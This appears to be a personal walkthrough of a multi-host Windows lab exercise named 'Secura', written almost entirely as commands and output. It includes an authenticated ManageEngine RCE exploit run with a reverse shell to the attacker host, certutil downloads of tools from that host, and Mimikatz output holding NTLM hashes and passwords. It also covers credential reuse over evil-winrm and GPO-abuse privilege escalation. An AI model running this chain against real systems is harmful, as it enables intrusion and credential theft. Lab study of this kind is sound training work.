










192.168.215.95: Eric.Wallows:EricLikesRunning800
192.168.215.96
192.168.215.97
# Secura

# .95 Box

```bash
Provided Information

192.168.147.95
Eric.Wallows:EricLikesRunning800
```

# Nmap

```bash
nmap -Pn 192.168.147.95
```


```bash
nmap -A -T4 -p 135,139,445,3389,5001,5985,8443,12000 192.168.147.95
```




# RDP with provided Credentials

```bash
xfreerdp3 /v:192.168.147.95 /u:Eric.Wallows /p:'EricLikesRunning800' /cert:ignore +clipboard +fonts +compression /dynamic-resolution /drive:tools,/home/kali/tools

# Success
# It autoloaded an Application Manager

# Attempted to login with default creds admin:admin

# success
```


# Locate Version of Application

```bash
# Identifed build #14710

# Look for Exploit via SearchSploit
```


```bash
searchsploit manageengine 
```


```bash
# Idenfied
ManageEngine Applications Manager 14700 - Remote Code Execution (Authenticated)                                                                            | java/webapps/48793.py
```

# Download an inspect exploit

```bash
searchsploit -m 48793.py

sudo nano 48793.py

# Contents
# Example call for MAM version 12900:
# $ python3 poc_mam_weblogic_upload_and_exec_jar.py https://192.168.252.12:8443 admin admin weblogic.jar

# Upon attempting to run that. Got an error stating
[*] Usage: 48793.py <url> <username> <password> <reverse_shell_host> <reverse_shell_port>

# Revised Command:

python3 48793.py https://192.168.147.95:8443 admin admin 192.168.45.227 4444
```

# Start Listener and Run Script to Establish Shell

```bash
# Listener
nc -lvnp 4444

# Run script
python3 48793.py https://192.168.147.95:8443 admin admin 192.168.45.227 4444

```


----------------

# .96 Box

# Nmap

```bash
nmap -Pn 192.168.147.96
```

```
nmap -A -T4 -p 135,139,445,3306,5985 192.168.147.96
```


# Transfer WinPeas

```bash

# Host HTTP Server
python3 -m http.server 80

# Transfer Files
certutil -urlcache -split -f http://192.168.45.227/winPEASx64.exe winPEASx64.exe

# And

certutil -urlcache -split -f http://192.168.45.227/SharpHound.ps1 SharpHound.ps1 

```


# Run WinPeas
```bash
./winPEASx64.exe
```

```bash
# Found Interesting Stuff
administrator:Reality2Show4!.?
```

# Run SharpHound.ps1

## Latest SharpHound
```bash
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.ps1
```

```bash
#Powershell
powershell -ep bypass

# Load Module
Import-Module .\SharpHound.ps1

# BloodHound
Invoke-BloodHound -CollectionMethod All
```



# Transfer File to Kali with Impacket SMB Server

```bash
cd ~/impacket-latest/examples

# Run (ON KALI)
python3 smbserver.py -smb2support test /home/kali/oscp

# Copy File (ON TARGET MACHINE)
copy 20260318174600_BloodHound.zip \\192.168.45.227\test
```
# Start Bloodhound

```bash
sudo neo4j start

# Then Bloodhound
bloodhound
```


## Log in via RDP
```bash
xfreerdp3 /v:192.168.104.95 /u:Administrator /p:'Reality2Show4!.?' /cert:ignore +clipboard +fonts +compression /dynamic-resolution /drive:tools,/home/kali/tools
```
## Run Mimikatz.exe

```bash
# Transfer Mimikatz.exe via RDP session
# Run as Administrator
# Then
privilege::debug

#dump the credentials of all logged-on users
sekurlsa::logonpasswords

# NTLMs Gathered:
         * Username : SECURE$
         * Domain   : SECURA
         * NTLM     : 983e73c648db56f78e9dfb9698066734
         * SHA1     : 8372b4560319480f2ea43971f77b4e4efc37497a
        tspkg :
        wdigest :
         * Username : SECURE$
         * Domain   : SECURA
         * Password : (null)
        kerberos :
         * Username : SECURE$
         * Domain   : secura.yzx
-----------
User Name         : Administrator
Domain            : SECURE
Logon Server      : SECURE
Logon Time        : 5/20/2025 9:40:36 PM
SID               : S-1-5-21-3197578891-1085383791-1901100223-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : SECURE
         * NTLM     : a51493b0b06e5e35f855245e71af1d14
         * SHA1     : 02fb73dd0516da435ac4681bda9cbed3c128e1aa
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : SECURE
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : SECURE
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : apache
         * Domain   : era.secura.local
         * Password : New2Era4.!
        cloudap :
--------------
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/23/2026 10:55:16 PM
SID               : S-1-5-90-0-3
        msv :
         [00000003] Primary
         * Username : SECURE$
         * Domain   : SECURA
         * NTLM     : e5a2352c3c0d1f97d12f879fc31b5061
         * SHA1     : ff067c3810d6e46ab3232b6ea1eab477d047543c
        tspkg :
        wdigest :
         * Username : SECURE$
         * Domain   : SECURA
         * Password : (null)
        kerberos :
         * Username : SECURE$
         * Domain   : secura.yzx

```
# .96 Nmap (era.secura.local)
```bash
nmap -A -T4 -p 135,139,445,3306,5985 192.168.104.96
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-23 23:59 +0000
Nmap scan report for 192.168.104.96
Host is up (0.100s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.24 or later (unauthorized)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|7|2008|8.1|XP (98%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (98%), Microsoft Windows 10 1909 (93%), Microsoft Windows 10 1709 - 21H2 (92%), Microsoft Windows 10 20H2 (90%), Microsoft Windows 10 20H2 - 21H1 (90%), Microsoft Windows Server 2019 (90%), Microsoft Windows 10 21H2 (90%), Microsoft Windows 10 1903 - 21H1 (89%), Microsoft Windows 10 1803 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-23T23:59:45
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   96.28 ms 192.168.45.1
2   96.11 ms 192.168.45.254
3   96.50 ms 192.168.251.1
4   96.75 ms 192.168.104.96

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.06 seconds
```
## Login to .96 with Evil-WinRM
```bash
evil-winrm -i 192.168.104.96 -u 'apache' -p 'New2Era4.!'
```

## Search for interesting Files

```bash
C:\xampp> cat passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser
   Password: wampp

4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf

   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so

   Please do not forget to refresh the WEBDAV authentification (users and passwords).

```



## Enumerate Database in Evil-WinRM with new creds root:<NO PASSWORD>
```bash
# Enumerate Databases
C:\xampp\mysql\bin\mysql.exe -u root -e "show databases;"
#Results
Database
creds
information_schema
mysql
performance_schema
phpmyadmin
test

# Enumerate Tables
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> C:\xampp\mysql\bin\mysql.exe -u root -e "use creds; show tables;"
 
#Results
Tables_in_creds
creds

# Enumerate creds
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> C:\xampp\mysql\bin\mysql.exe -u root -e "use creds; select * from creds;"
 
#Results
name    pass
administrator   Almost4There8.?
charlotte       Game2On4.!
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> 
```

## Login to .96 administrator and grab both flags
```bash
evil-winrm -i 192.168.104.96 -u administrator -p 'Almost4There8.?'
```

## Login to .97 with charlotte:Game2On4.! and grab flag

```bash
evil-winrm -i 192.168.104.97 -u charlotte -p 'Game2On4.!'
```

## Enumerate with SharpHound.ps1
```bash
# Upload
upload SharpHound.ps1

#Powershell
powershell -ep bypass

# Load Module
Import-Module .\SharpHound.ps1

# BloodHound
Invoke-BloodHound -CollectionMethod All

# Appears that Charlotte has WriteDacl privs over Default Domain Policy
```


## Priv Esc

```bash
# Upload
upload SharpGPOAbuse.exe

# Run it
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"

# Force Update group policy
gpupdate /force

# Reload Evil-WinRM Session
# cd to Administrator and grab last flag
```

